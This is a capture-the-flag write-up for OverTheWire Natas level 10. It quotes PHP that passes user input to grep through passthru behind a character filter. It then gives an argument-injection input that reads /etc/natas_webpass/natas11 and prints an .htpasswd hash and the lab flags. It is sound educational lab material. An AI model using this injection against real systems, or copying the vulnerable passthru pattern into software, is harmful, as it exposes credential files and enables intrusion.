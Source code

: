 # Natas Level 9 → Level 10 Command Injection w/ some filter

## Previous Flag
<b>t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu</b>

## Goal
Username: natas10<br>
URL: http://natas10.natas.labs.overthewire.org<br>

For security reasons, we now filter on certain characters<br>
Find words containing: <br>
Output:<br>
View sourcecode

## What I learned
```
Since relied on passthru w/ grep can still search
```

## Solution
```
Click View source code
http://natas10.natas.labs.overthewire.org/index-source.html 

<div id="content">
For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) { 👀
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>

Find words containing: .* /etc/natas_webpass/natas11 # ⌨️
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$apr1$tmwSSiSr$r/7J.9AX6rzxuvTp4BntO1
/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk 🔐
```

## Flag
<b>UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk</b>

## Continue
[Continue](./Natas1011.md)